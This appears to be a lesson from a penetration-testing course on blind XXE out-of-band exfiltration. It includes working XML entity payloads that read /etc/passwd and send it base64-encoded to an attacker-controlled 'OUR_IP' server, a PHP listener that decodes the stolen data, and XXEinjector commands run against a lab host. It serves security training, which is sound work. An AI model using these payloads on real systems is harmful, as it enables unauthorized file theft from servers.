 # Blind Data Exfiltration

In the previous section, we saw an example of a blind XXE vulnerability, where we did not receive any output containing any of our XML input entities. As the web server was displaying PHP runtime errors, we could use this flaw to read the content of files from the displayed errors. In this section, we will see how we can get the content of files in a completely blind situation, where we neither get the output of any of the XML entities nor do we get any PHP errors displayed.

***

## Out-of-band Data Exfiltration

If we try to repeat any of the methods with the exercise we find at `/blind`, we will quickly notice that none of them seem to work, as we have no way to have anything printed on the web application response. For such cases, we can utilize a method known as `Out-of-band (OOB) Data Exfiltration`, which is often used in similar blind cases with many web attacks, like blind SQL injections, blind command injections, blind XSS, and of course, blind XXE. Both the [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/course/preview/cross-site-scripting-xss) and the [Whitebox Pentesting 101: Command Injections](https://academy.hackthebox.com/course/preview/whitebox-pentesting-101-command-injection) modules discussed similar attacks, and here we will utilize a similar attack, with slight modifications to fit our XXE vulnerability.

In our previous attacks, we utilized an `out-of-band` attack since we hosted the DTD file in our machine and made the web application connect to us (hence out-of-band). So, our attack this time will be pretty similar, with one significant difference. Instead of having the web application output our `file` entity to a specific XML entity, we will make the web application send a web request to our web server with the content of the file we are reading.

To do so, we can first use a parameter entity for the content of the file we are reading while utilizing PHP filter to base64 encode it. Then, we will create another external parameter entity and reference it to our IP, and place the `file` parameter value as part of the URL being requested over HTTP, as follows:

```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % oob "<!ENTITY content SYSTEM 'http://OUR_IP:8000/?content=%file;'>">
```

If, for example, the file we want to read had the content of `XXE_SAMPLE_DATA`, then the `file` parameter would hold its base64 encoded data (`WFhFX1NBTVBMRV9EQVRB`). When the XML tries to reference the external `oob` parameter from our machine, it will request `http://OUR_IP:8000/?content=WFhFX1NBTVBMRV9EQVRB`. Finally, we can decode the `WFhFX1NBTVBMRV9EQVRB` string to get the content of the file. We can even write a simple PHP script that automatically detects the encoded file content, decodes it, and outputs it to the terminal:

```php
<?php
if(isset($_GET['content'])){
    error_log("\n\n" . base64_decode($_GET['content']));
}
?>
```

So, we will first write the above PHP code to `index.php`, and then start a PHP server on port `8000`, as follows:

```shell-session
$ vi index.php # here we write the above PHP code
$ php -S 0.0.0.0:8000

PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
```

Now, to initiate our attack, we can use a similar payload to the one we used in the error-based attack, and simply add `<root>&content;</root>`, which is needed to reference our entity and have it send the request to our machine with the file content:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [ 
  <!ENTITY % remote SYSTEM "http://OUR_IP:8000/xxe.dtd">
  %remote;
  %oob;
]>
<root>&content;</root>
```

Then, we can send our request to the web application:

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Finally, we can go back to our terminal, and we will see that we did indeed get the request and its decoded content:

```shell-session
PHP 7.4.3 Development Server (http://0.0.0.0:8000) started
10.10.14.16:46256 Accepted
10.10.14.16:46256 [200]: (null) /xxe.dtd
10.10.14.16:46256 Closing
10.10.14.16:46258 Accepted

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...SNIP...
```

{% hint style="info" %}
**Tip:** In addition to storing our base64 encoded data as a parameter to our URL, we may utilize `DNS OOB Exfiltration` by placing the encoded data as a sub-domain for our URL (e.g. `ENCODEDTEXT.our.website.com`), and then use a tool like `tcpdump` to capture any incoming traffic and decode the sub-domain string to get the data. Granted, this method is more advanced and requires more effort to exfiltrate data through.
{% endhint %}

***

## Automated OOB Exfiltration

Although in some instances we may have to use the manual method we learned above, in many other cases, we can automate the process of blind XXE data exfiltration with tools. One such tool is [XXEinjector](https://github.com/enjoiz/XXEinjector). This tool supports most of the tricks we learned in this module, including basic XXE, CDATA source exfiltration, error-based XXE, and blind OOB XXE.

To use this tool for automated OOB exfiltration, we can first clone the tool to our machine, as follows:

```shell-session
$ git clone https://github.com/enjoiz/XXEinjector.git

Cloning into 'XXEinjector'...
...SNIP...
```

Once we have the tool, we can copy the HTTP request from Burp and write it to a file for the tool to use. We should not include the full XML data, only the first line, and write `XXEINJECT` after it as a position locator for the tool:

```http
POST /blind/submitDetails.php HTTP/1.1
Host: 10.129.201.94
Content-Length: 169
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko)
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.201.94
Referer: http://10.129.201.94/blind/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0" encoding="UTF-8"?>
XXEINJECT
```

Now, we can run the tool with the `--host`/`--httpport` flags being our IP and port, the `--file` flag being the file we wrote above, and the `--path` flag being the file we want to read. We will also select the `--oob=http` and `--phpfilter` flags to repeat the OOB attack we did above, as follows:

```shell-session
$ ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter

...SNIP...
[+] Sending request with malicious XML.
[+] Responding with XML for: /etc/passwd
[+] Retrieved data:
```

We see that the tool did not directly print the data. This is because we are base64 encoding the data, so it does not get printed. In any case, all exfiltrated files get stored in the `Logs` folder under the tool, and we can find our file there:

```shell-session
$ cat Logs/10.129.201.94/etc/passwd.log 

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...SNIP..
```

Try to use the tool to repeat other XXE methods we learned.
